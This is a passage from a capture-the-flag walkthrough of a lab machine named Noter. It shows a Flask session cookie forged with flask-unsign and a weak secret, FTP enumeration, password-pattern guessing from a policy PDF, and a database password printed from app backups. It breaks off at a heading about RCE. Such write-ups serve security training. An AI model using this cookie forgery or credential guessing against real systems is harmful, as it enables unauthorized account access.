 **Forging the Cookie and Logging in as Blue**

Using flask-unsign, we can also sign a cookie:
```
thehated@debian:~$ flask-unsign --sign --secret secret123 --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yxds9g.fR2IP9wZhjGqa5LnmiegvwDGKJ0
```

Upon changing our cookie, we get signed in as Blue:
![noterloggedin](https://cybersec.deadandbeef.com/images/noterloggedin.png)

Crucially, we have a note from ftp_admin:

![noternote](https://cybersec.deadandbeef.com/images/noternote.png)

Now we can log in to FTP.

**Enumerating FTP**

Logging into FTP as blue, we see a file named "policy.pdf", and download it:
```
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files  
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
```

The "files" directory is empty.

The pdf gives us info about passwords:
![noterpdf](https://cybersec.deadandbeef.com/images/noterpdf.png)

Most crucially, it tells us that the password format is "username@site_name!", and since blue's password was "blue@Noter!", perhaps ftp_admin's password is "ftp_admin@Noter!"

**RCE and shell as svc**

We see two app backups:
```
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip  
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip  
226 Directory send OK.
```

We download these and look at them. They are backups of the web app, and one of them has a database password, which might be useful later:
```
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```
